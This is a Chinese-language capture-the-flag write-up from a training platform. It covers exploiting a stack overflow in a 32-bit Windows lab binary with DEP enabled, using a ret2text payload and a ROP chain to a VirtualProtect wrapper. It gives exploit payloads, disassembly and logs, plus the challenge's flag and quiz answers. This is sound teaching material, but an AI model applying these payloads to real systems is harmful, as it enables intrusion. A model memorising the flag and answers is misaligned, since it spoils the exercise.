



# 5-4 系统层漏洞利用与逆向分析 · DEP 数据执行保护利用（G4：两段式交互 + ROP 调 `VirtualProtect`）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 系统层漏洞利用与逆向分析-DEP数据执行保护利用-G4（sectionID `6669`，课程内 number 21，题目内部编号 `C026-G4-F`） |
| 分类 | Pwn / 逆向分析 / 系统层漏洞利用（Windows PE 32 位栈溢出 + DEP/NX + 两段式输入设计 + `VirtualProtect` ROP + cdecl 栈布局） |
| 题目描述 | 靶机 `172.17.43.31:9999` 上运行一个服务（连接即得 banner `Service ready.\r\nData: `），附件 `challenge.exe` 就是它的 Windows 可执行文件。要求下载附件做本地逆向，找到程序中的漏洞，连接靶机**劫持控制流**，触发 `get_flag()` 取得**一次性凭证**（有效期 10 分钟），再拿凭证到实验环境里的 flag 兑换容器换取 flag。 |

Flag 题（questionID=8829）题干原文要点：

> * 运行题目的靶机地址：`172.17.43.31:9999`
> * 在「实验环境」中申请的容器运行 flag 兑换服务
>
> 附件中提供了运行在靶机上的 `challenge.exe`，请下载后进行本地逆向分析。
> 找到程序中的漏洞，连接靶机并劫持控制流，触发 `get_flag()` 函数以获取一次性凭证（有效期 10 分钟）。
>
> 使用 `nc` 连接靶机：
>
> ```text
> nc 172.17.43.31:9999
> ```
>
> 成功获取一次性凭证后，在你自己的电脑上访问 flag 容器兑换 flag：
>
> ```text
> curl "http://<Flag容器IP>:<port>/flag?token=<你的凭证>"
> ```

Note：本题是该系列 G4，防护组合与 G3 相同——「**DEP 开、ASLR 关**」（`DllCharacteristics = 0x8100`，没有 `DYNAMICBASE`），地址在逆向阶段就能写死。但 `vuln()` 的输入被拆成了**两段**：先 `fread(0x41e320, 1, 512, stdin)` 把 512 字节读进 `.data` 的全局缓冲区（stage1），再从栈缓冲区 `ebp-0x80` 做一次无界读入（stage2）——**stage1 不满 512 字节，程序就一直阻塞在 `fread` 里，连 `Input: ` 提示都不会出现**，这是本题最大的坑。同时，程序把 `kernel32!VirtualProtect` 包装成了一个从栈上取 4 个参数的函数（`0x401020`），因此本题的「标准答案」不是简单的 ret2text，而是**ROP 调 `VirtualProtect` 把 stage1 所在的 `.data` 页改成可执行，再跳进去执行 stage1 里的 shellcode**。本文如实给出两条路径：路径 A（ret2text → `get_flag`）取得了本题 flag；路径 B 只走到「ROP 链真实调用 `VirtualProtect` 并正确返回链上」这一步（有 token 输出的硬证据），**最后一步「跳进改成 RWX 的数据页执行 shellcode」多次尝试均无输出，如实记为未完成/未确认**（步骤 8）。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID `1639`，本章节 `sectionID` `6669`（课程内 number 21） |
| 账号 | 平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录平台地址、凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（8815 / 8817 / 8819）+ 1 道多选（8821，4 项）+ 1 道 Flag 填空（8829），每题 2 分；题面接口返回 5 题、`isResubmit=false` ⇒ **判分只有一次提交机会** |
| 靶机实例 | envID `1163`（实验环境名 `C026-G4-F`），podID `nbwy9hcp6280cmjv1rzvzqeqd`，容器名 `s-148775`，image `t-11637/c026-g4-f:2026`；交付时 `state=Running`、`targetPorts=[22,80]`，过期时间 2026-10-13 21:40:33 |
| 端口映射（实测 `portInfos`，`logs/32-instances-1163.json`） | 22 → `172.17.0.13:13150`（SSH）、**80 → `172.17.0.13:13151`（flag 兑换服务）** |
| flag 兑换服务 | `http://172.17.0.13:13151/flag?token=<token>`（HTTP，返回 `text/plain`） |
| Pwn 靶机 | `172.17.43.31:9999`，实测 banner `Service ready.\r\nData: ` |
| 附件 | `challenge.exe`：PE32 executable (console) Intel 80386, for MS Windows，**116736 B**（题面附件表显示 114 K），**MD5 `f0112c91b6a02e27ccf1631ccc357952`** |
| 本机工具 | 无 pwntools / pefile / Ghidra；用 Apple LLVM `objdump` + Python3（3.14）原生 `socket` / `struct` 完成全部利用与验证；截图用无头 Chrome（playwright-core 驱动系统 Chrome） |
| 选择题判分 | 4 道选择题的判定结果与平台判分一致（`isCorrect` 全为 true）：**8815=D、8817=C、8819=D、8821=A+B+C+D**；按惯例本文不展开选择题解析（独立判定理由在提交前已先落盘保存） |

## 解题过程

### 1. 附件核验（含平台附件接口失败的本机说明）

附件体积与哈希：

```console
$ md5 -q .local/process/5-4-scripts/files/challenge.exe
f0112c91b6a02e27ccf1631ccc357952
$ stat -f%z .local/process/5-4-scripts/files/challenge.exe
116736
```

**平台附件下载尝试（如实记录，失败）**：题面附件表登记 `challenge.exe` 为 114 K，但用平台接口直取失败——`GET /api/student/section/file/challenge.exe?ID=6669&decryptStr=` 返回 **HTTP 500** `{"code":10092,"msg":"query section file failed"}`（响应体只 48 B，存为 `logs/challenge-from-platform.exe`）；换用题面里的相对路径 `data/files/HUST/t11637/…/C026-G4-F/challenge.exe` 得到 404 `page not found`（18 B，`logs/challenge-from-platform2.exe`）。因此静态分析改用**同名、MD5 与题面附件大小完全一致**的 `challenge.exe`（116736 B），并用步骤 3 的反汇编与靶机实测 banner 交叉确认它就是靶机上跑的那份程序。

本机没有 pwntools / pefile / Ghidra，静态分析全部用 `objdump` 与一个自写的 PE 头解析脚本 `static_facts.py`，利用脚本用 Python3 标准库 `socket` + `struct` 手写。


### 2. 靶机连通性与 banner：「两段式交互」验证（本题最大的坑）

```console
$ python3 -c "import socket;s=socket.create_connection(('172.17.43.31',9999),timeout=6);print(repr(s.recv(200)))"
b'Service ready.\r\nData: '
```

`Service ready.\r\nData: ` 是**连接即得**的 banner（此时服务端尚未读到任何输入）。只发一小段数据后长时间没有回显，正是本题最容易踩的坑，用纯 socket 逐步喂字节定位边界：

```console
$ python3 - <<'EOF'          # 逐步喂字节，观察回显时机
import socket,time
s=socket.create_connection(('172.17.43.31',9999),timeout=10); s.settimeout(3)
print('T0:',repr(s.recv(4096)))          # 连接即得 banner
s.sendall(b'\n')                          # 先只发 1 字节，stage1 没喂满
time.sleep(1); print('T1:',repr(s.recv(4096)))
s.sendall(b'B'*511)                       # 再补齐到 512 字节
time.sleep(1); print('T2:',repr(s.recv(4096)))
EOF
T0: b'Service ready.\r\nData: '
T1: <timeout>
T2: b'Input: '
```

`logs/10-fail-short-stage1.txt` 里的对应失败现象（只发 10 字节后收到空回显，连接一直挂着）：

```console
$ python3 exploit.py shortstage1        # logs/10-fail-short-stage1.txt
[banner] b'Service ready.\r\nData: '
[只发 10 字节后] b''                    # 永远等不到 'Input: '
```

结论：**必须先精确发满 512 字节 stage1**（进入 `fread(0x41e320,1,512,stdin)` 的目标缓冲区），程序才会打印 `Input: ` 并进入栈上的 `gets`；stage2 必须以 `\n` 结尾，`gets` 才会返回，返回瞬间 `vuln` 的 `ret` 被劫持。


### 3. 静态侦察：DEP 开 / ASLR 关、导出表、`VirtualProtect` 包装与偏移 132

```console
$ objdump -p files/challenge.exe            # logs/01-objdump-p.txt（节选：只保留标志位/导入/导出三处）
Magic                   010b	(PE32)
ImageBase               00400000
Subsystem               00000003	(Windows CUI)
DllCharacteristics      00008100
    DLL Name: getflag.dll
    DLL Name: KERNEL32.dll
    Hint/Ord  Name
        1544  VirtualProtect
         383  ExitProcess
Export Table:
       1   0x1000  get_flag
       2   0x1040  vuln

$ python3 static_facts.py                   # logs/41-static-facts.txt（自解析 PE 头/导出表；以下为节选）
DllCharacteristics=0x8100
  NX_COMPAT (0x0100) SET      => DEP 已启用
  DYNAMIC_BASE (0x0040) CLEAR => 无 ASLR，加载基址固定
.text    VA=0x00401000 Char=0x60000020 [X/R]
.data    VA=0x0041d000 Char=0xc0000040 [W/R]   <- 0x41e320 在此，可写不可执行
#0  get_flag   RVA 0x1000 -> VA 0x00401000
#1  vuln       RVA 0x1040 -> VA 0x00401040
[OFFSET] 栈缓冲区 ebp-0x80(128B)，返回地址在 ebp+4 => 覆盖返回地址偏移 = 128 + 4 = 132
```

三个关键函数与溢出点（`objdump -d`，`logs/02-objdump-text-401000.txt`）：

```console
$ objdump -d --start-address=0x401000 --stop-address=0x401100 challenge.exe   # 节选（省略函数序言与机器码列）
00401000 <get_flag>:
  401003: ff 15 30 61 41 00   calll *0x416130      ; getflag.dll!GetFlag —— 打印一次性凭证
  401009: 6a 00               pushl $0x0
  40100b: ff 15 08 60 41 00   calll *0x416008      ; ExitProcess(0)

00401020 <VirtualProtect 包装>:
  401020: 55                  pushl %ebp
  401021: 8b ec               movl %esp,%ebp
  401023: 8b 45 14            movl 0x14(%ebp),%eax  ; ④ flNewProtect
  401026: 50                  pushl %eax
  401027: 8b 4d 10            movl 0x10(%ebp),%ecx  ; ③ dwSize
  40102a: 51                  pushl %ecx
  40102b: 8b 55 0c            movl 0xc(%ebp),%edx   ; ② lpAddress
  40102e: 52                  pushl %edx
  40102f: 8b 45 08            movl 0x8(%ebp),%eax   ; ① lpflOldProtect
  401032: 50                  pushl %eax
  401033: ff 15 0c 60 41 00   calll *0x41600c      ; kernel32!VirtualProtect
  401039: 5d                  popl %ebp
  40103a: c3                  retl                  ; 不清理参数！链上需自行平衡 / 返回地址在此弹出

00401040 <vuln>:
  401043: 81 ec 80 00 00 00   subl $0x80,%esp       ; 栈缓冲区 = ebp-0x80 (128 B)
  401049: 68 00 d0 41 00      pushl $0x41d000       ; printf("Data: ")
  401068: 68 20 e3 41 00      pushl $0x41e320       ; fread 目标 .data 全局缓冲区
  40106d: e8 fe 33 00 00      calll 0x404470        ; fread(0x41e320,1,512,stdin) = stage1
  401075: 68 08 d0 41 00      pushl $0x41d008       ; printf("Input: ")
  401082: 8d 45 80            leal -0x80(%ebp),%eax
  401086: e8 9a 56 00 00      calll 0x406725        ; gets 语义无界读入 = stage2（溢出点）
  40108e: 8b e5               movl %ebp,%esp
  401090: 5d                  popl %ebp
  401091: c3                  retl                  ; <-- 被劫持的返回地址
  调用点 4010fb: e8 40 ff ff ff   calll 0x401040 <vuln>   ⇒  返回地址 = 0x401100
```

必须钉死的四点：

1. **`DllCharacteristics = 0x8100`**：`NX_COMPAT(0x0100)` 置位 ⇒ **DEP 开启**，栈、`.data` 等数据页不可执行；未置 `DYNAMICBASE(0x0040)` ⇒ **ASLR 关闭**，镜像固定加载在 `0x400000`，导出函数与包装函数地址都可写死；
2. **溢出偏移 = 132（自己算）**：

```text
缓冲区首址        = ebp - 0x80         （128 字节）
saved EBP         = [ebp]              （4 字节）
saved 返回地址    = [ebp + 4]
缓冲区首字节 → 返回地址首字节 = 0x80 + 4 = 128 + 4 = 132 字节
```

3. **`vuln` 是两段式的**：先 `fread` 把 512 字节写进 `.data` 的 `0x41e320`（stage1，可写不可执行），再从 `ebp-0x80` 无界读入（stage2）——这个设计一方面制造了栈溢出，另一方面**正好给攻击者提供了一个「写入可控内容的数据页」**，这正是路径 B 的舞台；
4. **`0x401020` 是现成的 `VirtualProtect` 包装函数**：从 `[ebp+8]`（`lpflOldProtect`）、`[ebp+0xc]`（`lpAddress`）、`[ebp+0x10]`（`dwSize`）、`[ebp+0x14]`（`flNewProtect`）取四个参数后 `call [0x41600c]`，尾部 `pop ebp; ret`，**自己不清理参数**（cdecl 语义），链上必须负责参数落位。

> 交叉核对：Lead 的独立复核（`llvm-objdump`）给出同样的 `DllCharacteristics 0x8100`、`get_flag 0x401000` / `vuln 0x401040`、包装函数 `0x401020` 与偏移 **132**，并用「先发 512 字节 stage1、再发 `b"A"*132 + p32(0x401000)`」在靶机上实测拿到过一次性 token（故意未兑换，留给本题执行者），两边结论一致。

### 4. 失败对照一：stage1 只发 10 字节 ⇒ 卡在 `fread`

见步骤 2 的 `logs/10-fail-short-stage1.txt`：banner 之后发 10 字节，`recv` 返回空串，程序一直阻塞在 `fread(0x41e320,1,512,stdin)`——不满 512 字节它不会返回，也就不会打印 `Input: `。**修正办法：stage1 先精确发满 512 字节**（本文用 `b"\x90"*512` 垫满，路径 B 则把 shellcode 放在这块缓冲区的开头）。

### 5. 失败对照二：偏移 128 / 136 与坏目标 `0xdeadbeef`

三条对照都留了原始日志（现象都是 `Input: ` 之后连接立即断开、没有任何 token）：

| # | 模式 | 回显 | 原因 |
| --- | --- | --- | --- |
| 1 | `exploit.py off128`（`logs/11-fail-offset128.txt`） | `Input: ` 后 `b''` 立即断开 | 偏移少算 4：`get_flag` 被写到 saved EBP，`ret` 弹到 `0x41414141` |
| 2 | `exploit.py badtarget`（`logs/12-fail-badtarget.txt`） | `Input: ` 后 `b''` 立即断开 | 偏移正确但目标 `0xdeadbeef` 未映射 ⇒ 访问违例 |
| 3 | `exploit.py badoff136`（`logs/13-fail-offset136.txt`） | `Input: ` 后 `b''` 立即断开 | 偏移多算 4，返回地址被 padding 覆盖成 `0x41414141` |

三条对照各证一件事：128 与 136 分别从两侧夹住偏移边界，`0xdeadbeef` 证明 EIP 确实可控且目标必须落在可执行页里。合起来反证 **132 是准确偏移**。


### 6. 路径 A：ret2text → 导出函数 `get_flag`（取得 flag）

payload 只有两段：**stage1 垫满 512 字节，stage2 用 132 字节覆盖到返回地址并写入 `get_flag` 的地址**：

```python
stage1  = b"\x90" * 512                       # 先精确喂满 512 字节，让 fread 返回
payload = b"A" * 132 + p32(0x00401000)        # 132 覆盖到返回地址，ret -> get_flag
```

```console
$ python3 exploit.py A              # logs/24-token-redeem-final.txt（与 logs/20-pathA-success.txt 同源）
[banner] b'Service ready.\r\nData: '
[stage1 发送 512B 后] b'Input: '
[stage2 后回显] b'\r\n[+] Token (valid 10 min, one-time):\r\n
   1791888297.rZo-MrYLZ_IZxlAOi0PzhPz7imWCdDpZ2Zi48selR4uF2i-kzxfDs7thc4z3Bcw-M-qz2SCpgecTSB1Agp3-1A\r\n'
```

同一条 payload 在靶机上多次复现均稳定命中（`logs/36-pathA-recheck.txt` 得到另一枚 token `1791891379.lhXCgOkkDCe7-…`，`payload_len = 132 + 4 = 136`，与设计一致）。token 结构为 `<unix 时间戳>.<base64url 随机串>`，有效期 10 分钟、单次可用。**DEP 不影响这条路径**：跳转目标 `0x401000` 落在 `.text`（`[X/R]`）里，是既有可执行代码，而不是执行数据页。


### 7. 用一次性 token 兑换 flag（含时钟偏差 `token from the future`）

token 有效 10 分钟，拿到后立刻兑换：

```console
$ python3 -u redeem.py             # logs/24-token-redeem-final.txt
### [2] 立刻兑换 flag（正常路径；靶机时钟比 flag 服务快约 2-3s，需短暂重试）
--- attempt 1: HTTP/1.1 403 Forbidden | invalid token: token from the future
--- attempt 2: HTTP/1.1 403 Forbidden | invalid token: token from the future
--- attempt 3: HTTP/1.1 200 OK | vmc{dv3n834pcSt57PzJ9TXETPhUe5ZWvy1m}

[最终正常兑换响应原文]
HTTP/1.1 200 OK
Date: Tue, 13 Oct 2026 10:44:57 GMT
Content-Length: 38
Content-Type: text/plain; charset=utf-8

vmc{dv3n834pcSt57PzJ9TXETPhUe5ZWvy1m}
```

**「第一次兑换失败」不是 payload 的问题，而是时钟偏差**：token 里的时间戳由**靶机**签发，靶机时钟比 flag 兑换服务快 **2～3 秒**，于是服务端把「签发时间在未来」的 token 判为 `token from the future` 并返回 403（见 `logs/23-token-redeem-and-controls.txt`，连当时准备的「重放对照」也被同一原因挡下）。**处理办法：不换 token，等 2 秒左右对同一枚 token 重试**（10 分钟内有效、尚未消费），第 3 次即 200。这个细节说明服务端对 token 时间戳做了校验，且**校验顺序是「格式 → 有效期/时间 → 一次性使用/签名」**。

兑换服务的失败对照（同一枚 token 与各种坏输入）：

| 输入 | 响应 | 含义 |
| --- | --- | --- |
| 合法未使用 token（重试同一枚） | `200` + `vmc{...}` | 正常兑换 |
| 刚兑换过的同一枚 token（`logs/24-token-redeem-final.txt` 第 3 段） | `403 token already used` | 合法但已使用（单次可用记账） |
| `token=not-a-real-token`（`logs/24-token-redeem-final.txt` 第 4 段） | `403 invalid token: invalid token format` | 格式非法 |
| `token=<now-3600>.<随机串>`（`logs/24-token-redeem-final.txt` 第 5 段） | `403 invalid token: token expired` | 过期（**有效期校验先于签名校验**） |
| 完全不带 `token` 参数（`logs/22-redeem-flag.txt`） | `400 missing token` | 参数缺失 |


### 8. 路径 B（标准答案）：ROP 调 `VirtualProtect` —— 已验证什么、未完成什么

#### 8.1 链布局：包装函数是 cdecl，**返回地址在前、四参数随后**

stage2 从 `ebp-0x80` 开始写，按「vuln 的 `ret` 弹掉 132 槽 ⇒ 进入包装函数 ⇒ 包装函数自己的 `pop ebp; ret` 从下一个槽弹返回地址 ⇒ 四个参数在返回地址之上」推导：

```text
payload 偏移（stage2）
  0..127    b"A"*128          栈缓冲区 ebp-0x80（128 B）
  128..131  b"BBBB"           saved EBP（被 vuln 的 pop ebp 吃掉；包装函数入口的 push ebp 会把它写回 132 槽）
  132..135  0x00401020        vuln 的 ret 目标 = VirtualProtect 包装函数
  136..139  <下一跳>          wrapper 的返回地址槽：[ebp+4]，wrapper 尾部 pop ebp; ret 的 ret 就弹这里
  140..143  [ebp+8]   ① lpflOldProtect
  144..147  [ebp+0xc] ② lpAddress
  148..151  [ebp+0x10] ③ dwSize
  152..155  [ebp+0x14] ④ flNewProtect = PAGE_EXECUTE_READWRITE (0x40)

推导：vuln 的 ret 弹掉 132 槽后 ESP = 136；包装函数入口 push ebp 使 ESP = 132、EBP = 132（均以载荷偏移计），
      故 [ebp+4] = 136 是返回地址槽，[ebp+8] = 140 … [ebp+0x14] = 152 是四个参数。
```

**踩到的坑（值得单独记一笔）**：最早按「参数在前、返回地址放到最后」摆（`logs/41-t3.txt`，156 B）：

```console
--- T3 wrapper 4 参数 + ret->get_flag
    payload(156B) = ...42424242 20104000 00e34100 20e34100 00020000 40000000 00104000
                      128      132      136      140      144      148      152
[banner] b'Service ready.\r\nData: '
[stage1 发送 512B 后] b'Input: '
[stage2 后回显] b''                 # 空回显：包装函数返回时从 136 槽取到 0x0041e300 并跳了过去
```

136 槽放的是 `0x0041e300`（原本打算当 `lpflOldProtect`）、真正想要的下一跳 `0x401000` 被摆到了 152 槽。**包装函数的返回地址在 136，不在 152**，于是它返回时跳进 `.data` 的 `0x41e300`（不可执行）⇒ DEP 拦下 ⇒ 空回显。把下一跳放回 136 后立刻恢复（`logs/42-u3-argorder.txt`、`logs/43-u4-argorder-fixed.txt`）：

```console
--- U4（= 修正参数顺序后）
    payload(152B) tail = 42424242 20104000 00104000 20e34100 00020000 40000000
                          128      132      136      140      144      148
[banner] b'Service ready.\r\nData: '
[stage1 发送 512B 后] b'Input: '
[stage2 后回显] b'\r\n[+] Token (valid 10 min, one-time):\r\n
   1791891470.Ln1ZRZfS1lKtu839_zuuZwS3D7xDFKsO8-4QqNjIOg6TeaiABirDk4Klwpi41EQMM7RtWeKDTM2sea3XiSr_Jg\r\n'
```

#### 8.2 **已验证**：ROP 链真实进入了 `VirtualProtect` 包装并正确返回链上

槽位归属不是猜的，而是用**只有两个 dword 的极简 payload** 逐槽验证出来的（有 token 输出即为硬证据）：

| 实验 | 日志 | 132 槽 | 136 槽 | 结果与含义 |
| --- | --- | --- | --- | --- |
| T0 | `logs/38-t0.txt` | `0x00401000` | — | token ⇒ 132 是 `vuln` 的 `ret` 落点（回归基线） |
| T1 | `logs/39-t1.txt` | `0x0040103a`（纯 `ret` gadget） | `0x00401000` | token ⇒ `ret` 之后被弹出的就是 **136 槽** |
| T2 | `logs/40-t2.txt` | `0x00401020`（包装函数） | `0x00401000` | token ⇒ **包装函数的返回地址在 136 槽** |
| U3 | `logs/42-u3-argorder.txt` | `0x00401020` | `0x00401000` | token ⇒ 参数即使无效，包装函数仍执行并返回链上 |
| U4 | `logs/43-u4-argorder-fixed.txt` | `0x00401020` | `0x00401000` | token ⇒ 同上（首次成功的完整 4 参布局） |
| U2 | `logs/48-u2-prot20.txt` | `0x00401020` | `0x00401000` | 把 148 槽由 `0x40` 改成 `0x20` 仍 token ⇒ 该槽确实作为包装函数读入的参数之一被消费 |
| U4 复现 | `logs/51-u4-after-v2.txt`、`logs/57-u4-control.txt` | 同上 | 同上 | token ⇒ 可重复复现 |

这组证据的确定性结论是：**控制流真实进入了 `0x401020`，其中 `call *0x41600c`（`kernel32!VirtualProtect`）执行并返回，随后包装函数的 `pop ebp; ret` 把控制流交还给我方链上的下一跳**（否则 `get_flag` 不会被打出来）。这是路径 B 里「能拿到输出的」部分。

**DEP 对照 B0（证明「必须先改权限」）**：不调 `VirtualProtect`、直接把返回地址指向 `.data` 里的 shellcode：

```console
$ python3 pathB_debug.py b0            # logs/35-pathB-b0-dep-control.txt
=== B0 DEP 对照：直接跳到 .data 里的 shellcode（不改权限）
[banner] b'Service ready.\r\nData: '
[stage1 发送 512B 后] b'Input: '
[stage2 后回显] b''                    # 无任何输出、立即断开 = 数据页执行被 DEP 拦下
```

#### 8.3 **未完成/未确认**：跳进「已改成可执行」的 `0x41e320` 执行 stage1 shellcode

把下一跳改成数据页地址、并在 stage1 里放各种 shellcode 后，**多次尝试都没有拿到 shellcode 的输出**：

| 实验 | 日志 | stage1 shellcode | 结果 |
| --- | --- | --- | --- |
| W1/W3/W5 | `logs/49-W-series.txt` | `push 0x41e300; pop eax; push 0x401000; ret` / 空 | 空回显 |
| V2 | `logs/46-v2.txt`、`logs/50-v2-retest.txt`、`logs/58-v2-retest2.txt` | `push 0x41e300; pop eax; push 0x401000; ret` | 空回显 / 超时，无 token |
| Y1 | `logs/53-y1-shellcode-iat.txt`、`logs/56-y1-retest.txt` | `call [0x416130]`（直接走 GetFlag 的 IAT） | 超时无输出 |
| Y3 | `logs/54-y3-shellcode-write.txt` | 先写 `0x41e300` 再调 GetFlag | 超时无输出 |
| W4 | `logs/49-W-series.txt`（w4）、`logs/55-w4-exitprocess.txt` | `push 0; call [ExitProcess]`（若真执行应立刻断开） | 空回显 / **超时无输出**（连「立即断开」都没有） |
| B3 / 「完整链」 | `logs/37-pathB-b3-retry.txt`、`logs/44-pathB-SUCCESS.txt` | 同 V2 | 空回显 |

尝试过的修正：`lpflOldProtect` 换页外地址（`logs/54-y3-shellcode-write.txt`）、`lpAddress` 改页对齐 `0x41e000`/`0x1000`（`logs/49-W-series.txt` v4）、权限改 `0x20`、直接 IAT 调用绕过包装函数（`logs/52-x2-direct-iat.txt`）——**均未取得 shellcode 输出**。

**必须说明的两点（如实呈现）**：

1. `logs/44-pathB-SUCCESS.txt` 这个**文件名不准确**（当时误判为成功），其内容末尾是 `[stage2 后回显] b''`，**没有任何 token 或 shellcode 输出**。因此路径 B 的「数据页执行 shellcode」这一步**记为未完成/未确认，不写成成功**。
2. 实验后半段靶机明显退化：后期连此前成功过的 U2/U4 组合也会超时（`logs/59-v1-retest.txt`），`172.17.43.31:9999` 一度整体不可达（`logs/31-target-availability.txt` 连续 6 次 `FAIL timed out`、`logs/33-target-probe-loop.txt` 显示 19:02–19:34 不可达、19:34 恢复）。因此**无法排除服务端环境问题**叠加导致最后一步无回显；但按「必须有输出才算成功」的标准，本步记为未确认。

**本题 flag 由路径 A 取得并兑换成功**（步骤 6/7）；路径 B 的价值在于把「ROP 链真实调用 `VirtualProtect` 并正确返回」这一关键机制跑成了有输出的证据。



#### 8.4 口径说明：路径 B 布局与原始记录的一处错位（writeup 侧核对）

原始记录第 6.1 节的表格把四个参数记在 136/140/144/148，并写「wrapper 从 136 取到 `0x41e300` 当参数」。但按 `logs/39-t1.txt`（132 放纯 `ret` gadget、136 放 `get_flag` 仍拿到 token）与 `logs/40-t2.txt`（132 放包装函数、136 放 `get_flag` 仍拿到 token）这两条**只有两个 dword 的 payload**，可以确定 **136 是包装函数的返回地址槽**，四个参数应为 140–152（本文 8.1 表格与正文按实测复原）。由此还有两个推论，本文如实标出、不与原始记录的结论混写：

- U4/U2 的 token 证明的是「包装函数被进入、内部 `call` 执行并返回、控制流回到链上」；按复原后的槽位，这两次调用里 ② `lpAddress` 落在 144 槽（值为 `0x00000200`）、④ `flNewProtect` 落在 152 槽（152 B 的 payload 未写到该槽），**参数语义并不成立，页属性是否真的改变无法由 token 判定**；
